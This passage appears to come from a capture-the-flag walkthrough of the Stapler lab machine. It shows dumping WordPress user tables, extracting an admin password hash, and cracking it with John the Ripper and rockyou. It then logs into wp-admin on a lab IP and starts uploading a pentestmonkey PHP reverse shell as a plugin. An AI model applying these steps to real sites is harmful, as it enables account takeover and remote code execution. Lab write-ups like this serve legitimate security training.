 ```sh
Database changed
MySQL [wordpress]> show tables;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
11 rows in set (0.199 sec)

MySQL [wordpress]> select * from wp_users;
16 rows in set (0.192 sec)

MySQL [wordpress]> 
```

Extract the hash of the user `john:$P$B7889EMq/erHIuZapMB8GEizebcIy9.` who is a administrative user.

Use john to crack the hash.

```sh
naveenj@hackerspace:|23:22|~/proving_grounds/Stapler/files$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
incorrect        (?)     
1g 0:00:00:09 DONE (2023-10-01 23:22) 0.1028g/s 19022p/s 19022c/s 19022C/s ireland4..iloveaj2
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed.
```

Now login to worpress https://192.168.208.148:12380/blogblog/wp-login.php using credentials `john:incorrect`.

Direct to Plugins ➡️ Add New ➡️ Upload Plugin .

Download pentest monkey PHP reverse shell and make changes accordingly and select the file to upload and Click Install Now.

![img](/assets/images/CTF/Proving_Grounds/Stapler/upload.png)
